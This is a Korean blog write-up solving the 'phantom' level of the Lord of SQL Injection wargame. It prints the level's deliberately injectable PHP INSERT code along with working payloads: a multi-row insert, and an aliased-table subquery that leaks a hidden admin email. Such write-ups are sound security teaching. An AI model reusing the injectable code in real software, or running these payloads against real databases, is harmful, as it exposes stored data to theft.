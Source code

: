 ```yaml
---
title: "[Lord of SQL Injection] LoS - phantom 문제풀이"
date: 2018-09-16
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


이번엔 유령이다 유령
`phantom` 이라는 문제인데 Write-up은 `The Phantom Of The Opera` 들으면서 써야겠다.  

<!--more-->

코드는 다음과 같다.  

|     ip    |      email     |
|:---------:|:--------------:|
| 127.0.0.1 | ************** |

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

보면 `joinmail`이라는 이름으로 가입 할(?) 이메일 주소를 입력 받는다.
그리고 현재 데이터베이스에 저장되어 있는 값 중, `no=1`인 값과 내 IP 주소와 같은 주소로 저장되어 있는 행을 `select` 해 출력 해 준다.
이 때, `no=1`인 행의 `email` 주소는 `**************`로 바뀌어 출력된다.
문제를 풀기 위해서는 `no=1`인 행의 `email`의 주소를 정확하게 알아내면 된다.
`joinmail`에서 테스트를 해 보았더니, 넘어온 값에 대해 제대로 검증을 하지 않아 한번에 여러 행을 추가할 수 있다는 사실을 알아냈다.  

```plain
?joinmail=test1'), (2, 'MY IP', 'test2
```

이렇게 입력하면 완성되는 쿼리는 아래와 같다.  

```mysql
insert into prob_phantom values(0,'MY IP','test1'), (2, 'MY IP', 'test2')
```

그 결과 한번에 `test1`과 `test2`가 저장된 것을 확인할 수 있다.
그래서 처음에는 `no=1`인 행을 덮어 쓰면 되지 않을까 생각했다.
근데 `no` 자리에 `1`을 넣어서 시도 해 보면 아예 쿼리가 먹히지 않았다.
아무래도 뭔가 설정 상으로 막아둔 것 같았다.
그래서 그 다음 방법으로는 `insert`문에 `select`로 `subquery`를 넣어 `no=1`인 행의 `email`을 뽑아 새로운 행으로 저장하는 방법을 생각했다.
처음에 문법을 제대로 몰라서 좀 삽질을 했다.
내 서버에서 테스트를 좀 했었는데, `ERROR 1093 (HY000): You can't specify target table 'user' for update in FROM clause` 이런 오류가 계속 났다.
알고보니 현재 테이블에서 값을 뽑아 현재 테이블의 값으로 저장하는 것은 안된다고 한다.
예를 들어, 아래와 같은 `insert`문을 작성했다고 가정하자.  

```mysql
insert into user value('id1', 'pw1'), ('id2', (select pw from user where id='admin'));
```

이 경우, `user`라는 테이블에 `user` 테이블에서 값을 추출 해 삽입하기 때문에 위와 같은 `1093`에러가 발생한다.
이 때 간단한 해결 방법이 있는데, 바로 `select` 문에서 테이블 명에 별칭을 주는 것이다.  

```mysql
insert into user value('id1', 'pw1'), ('id2', (select pw from user tmp where id='admin'));
```

위와 같이 `select pw from user`를 `select pw from user tmp`로 바꾸면 에러가 발생하지 않는다.
이를 바탕으로 쿼리문을 아래와 같이 구성했다.  

```plain
?joinmail=test'), (3, '210.126.104.194', (select email from prob_phantom tmp where no=1))#
```

그 결과 평문으로 된 `no=1`인 행의 `email` 주소를 얻을 수 있었다.  

|     ip    |            email           |
|:---------:|:--------------------------:|
| 127.0.0.1 | **************             |
| MY IP     | admin_secure_email@debu.kr |
| MY IP     |            test            |

이제 이메일을 구했으니, `?email=admin_secure_email@debu.kr`을 쿼리스트링으로 넘기면 문제를 풀 수 있다.  

```php
PHANTOM Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

---

```plain
PHANTOM Clear!!
```